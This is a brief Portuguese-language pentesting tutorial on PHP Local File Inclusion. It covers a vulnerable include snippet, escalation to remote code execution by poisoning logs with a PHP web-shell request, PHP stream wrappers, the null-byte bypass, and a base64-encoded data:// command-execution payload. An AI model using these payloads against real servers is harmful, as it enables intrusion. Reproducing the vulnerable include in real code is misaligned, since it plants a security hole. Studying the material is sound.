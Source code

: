 # LFI - Local File Inclusion

Essa vulnerabilidade ocorre quando a aplicação permite que o usuário inclua algum arquivo. Vamos supor que no código fonte há um include que pega por parâmetro via GET e inclui esse arquivo.

```
include($_GET['file']);
```

# De LFI a RCE - Infecção de Logs

Uma vez que conseguimos visualizar arquivos do lado do servidor, podemos aproveitar disso para conseguir uma RCE através da leitura dos arquivos de logs infectando o mesmo com algum código malicioso.

Podemos então enviar uma requisição para o servidor (caso a aplicação seja em php) da seguinte forma:

```
http://vuln.app/<?php system($_GET['shell']); ?>
```

Com isso, ao lermos o arquivo de log, podemos ver o código que inserimos. Como estamos através do LFI, e essa página interpreta o PHP, ele encontra o nosso código em PHP no log e tenta executar o comando que enviamos.

# PHP Wrappers

PHP Wrappers allows users to interact with various i/o streams including file io. It can be used to get content of a file preventing the server from executing it.

- [file://](https://www.php.net/manual/en/wrappers.file.php) — Accessing local filesystem
- [http://](https://www.php.net/manual/en/wrappers.http.php) — Accessing HTTP(s) URLs
- [ftp://](https://www.php.net/manual/en/wrappers.ftp.php) — Accessing FTP(s) URLs
- [php://](https://www.php.net/manual/en/wrappers.php.php) — Accessing various I/O streams
- [zlib://](https://www.php.net/manual/en/wrappers.compression.php) — Compression Streams
- [data://](https://www.php.net/manual/en/wrappers.data.php) — Data (RFC 2397)
- [glob://](https://www.php.net/manual/en/wrappers.glob.php) — Find pathnames matching pattern
- [phar://](https://www.php.net/manual/en/wrappers.phar.php) — PHP Archive
- [ssh2://](https://www.php.net/manual/en/wrappers.ssh2.php) — Secure Shell 2
- [rar://](https://www.php.net/manual/en/wrappers.rar.php) — RAR
- [ogg://](https://www.php.net/manual/en/wrappers.audio.php) — Audio streams
- [expect://](https://www.php.net/manual/en/wrappers.expect.php) — Process Interaction Streams

Em aplicações mais antigas onde é adicionado uma extensão no final do arquivo, podemos fazer o bypass adicionando o null byte `%00` para burlarmos essa extensão e visualizar o arquivo. Porém em aplicações mais modernas isso não é possível, nesse caso podemos em aplicações PHP utilizar o PHP Wrapper para lidarmos com essa situação. 

Vamos pegar esse exemplo dessa aplicação que adiciona a extensão `.php` no final do arquivo que é passado pelo parâmetro `page`. Se passarmos o parâmetro `test`, irá ficar dessa forma:

Agora, utilizando o PHP Wrapper `data://`, conseguimos burlar isso:


Podemos também encodar em base64:

```
$ echo -n "test" | base64 
dGVzdA==
```

Com isso, nós conseguimos também executar comandos do sistema operacional:


```
$ echo -n "<?php system('id'); ?>" | base64
PD9waHAgc3lzdGVtKCdpZCcpOyA/Pg==
```